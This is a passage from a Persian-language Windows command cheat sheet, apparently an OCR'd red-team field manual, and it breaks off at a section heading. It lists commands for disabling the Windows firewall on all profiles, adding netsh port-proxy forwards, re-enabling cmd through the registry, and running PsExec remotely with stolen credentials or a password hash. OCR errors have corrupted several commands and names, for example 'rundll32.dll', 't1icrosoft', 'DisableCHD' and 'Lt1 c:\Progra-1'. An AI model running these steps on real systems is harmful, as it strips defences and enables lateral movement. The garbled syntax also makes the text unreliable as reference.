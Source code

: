     <tr>
      <td style="text-align:left">secpool.rnsc</td>
      <td style="text-align:left">استفاده از Security policy manager</td>
    </tr>
    <tr>
      <td style="text-align:left">eventvwr.rnsc</td>
      <td style="text-align:left">استفاده از Event viewer</td>
    </tr>
  </tbody>
</table>## MISC. commands

### قفل نمودن workstation

```text
rundll32.dll user32.dll LockWorkstation 
```

### غیر فعال سازی فایروال ویندوز

```text
netsh advfirewall set currentprofile state off netsh advfirewall set allprofiles state off 
```

### ایجاد port forward \(\*نیاز به دسترسی admin\)

```text
netsh interface portproxy add v4tov4 listenport=3000 listenaddress=l.l.l.l connectport=4000 connectaddress=2.2.2.2 
#Remove
netsh interface portproxy delete v4tov4 listenport=3000 listenaddress=l.l.l.l 
```

### فعال سازی cmd

```text
reg add HKCU\Software\Policies\t1icrosoft\Windows\System /v DisableCHD /t REG DWORD /d 0 /f 
```

## دستور PSEXEC

### اجرای فایل از راه دور با اطلاعات هویتی خاص

```text
psexec /accepteula \\ targetiP -u domain\user -p password -c -f \\ smbiP \share\file.exe 
```

### اجرای دستور با هش خاص

```text
psexec /accepteula \\ ip -u Domain\user -p Lt1 c:\Progra-1 
```

### اجرا دستور بر روی سیستم از راه دور
